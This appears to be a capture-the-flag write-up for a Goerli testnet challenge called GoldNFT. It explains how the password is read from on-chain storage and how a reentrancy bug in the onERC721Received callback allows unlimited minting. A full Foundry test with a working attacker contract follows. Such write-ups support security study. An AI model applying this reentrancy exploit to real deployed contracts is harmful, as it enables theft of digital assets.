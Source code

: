 ## GoldNFT attack

It's possible to get one GoldNFT if you know the password that is checked on the unconfirmed contract at https://goerli.etherscan.io/address/0xe43029d90b47dd47611bad91f24f87bc9a03aec2 via the function `read`.

The GoldNFT is also vulnerable to an reentrence attack as it's not following the check effects interaction and so an attacker can mint an unlimited amount of nfts in the `onERC721Received` callback before minted is set to true if he knows the password.

Following the bytecode we can see that the password (bytes32) is checking the storage location of the password and if it is true.

`function func_006C(var arg0) returns (var r0) { return storage[arg0]; }`

There is a function 0x0daa5703 where you can set a chosen storage location a bool value, but it is protected for a specific caller.

Checking the deployment, we can see, that the storage location `0x23ee4bc3b6ce4736bb2c0004c972ddcbe5c9795964cdd6351dadba79a295f5fe` was set to true.
https://goerli.etherscan.io/tx/0x88fc0f1dd855405d092fc408c3311e7131477ec201f39344c4f002371c23f81c#statechange

With the knowing of the password, we just need an attacker contract to mint the nft and use the `onERC721Received` to reenter until we have enough nft's minted.

## Test
forge test --match-contract=HackGoldNFTTest

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

import "forge-std/Test.sol";
import "../src/GoldNFT.sol";

contract HackGoldNFTTest is Test {
    GoldNFT nft;
    HackGoldNft nftHack;
    address owner = makeAddr("owner");
    address hacker = makeAddr("hacker");

    function setUp() external {
        vm.createSelectFork("https://rpc.ankr.com/eth_goerli", 8591866); 
        nft = new GoldNFT();
    }

    function test_Attack() public {
        vm.startPrank(hacker);
        // solution

        nftHack = new HackGoldNft(nft);
        nftHack.hackit();

        assertEq(nft.balanceOf(hacker), 10);
    }
}

contract HackGoldNft {
    GoldNFT nft;
    address immutable owner;

    constructor(GoldNFT _nft) {
        nft = _nft;
        owner = msg.sender;
    }

    // https://goerli.etherscan.io/tx/0x88fc0f1dd855405d092fc408c3311e7131477ec201f39344c4f002371c23f81c#statechange
    // Storageaddress 0x23ee4bc3b6ce4736bb2c0004c972ddcbe5c9795964cdd6351dadba79a295f5fe was set to true
    bytes32 pw = 0x23ee4bc3b6ce4736bb2c0004c972ddcbe5c9795964cdd6351dadba79a295f5fe;

    function hackit() external {
        nft.takeONEnft(pw);
    }

    function onERC721Received(address, address, uint256 _tokenId, bytes calldata) external returns(bytes4) {

        // reeneter for 10 times
        nft.transferFrom(address(this), owner, _tokenId);
        
        if(nft.balanceOf(owner) < 10) {
            nft.takeONEnft(pw);
        }

        return this.onERC721Received.selector;
    }
}
```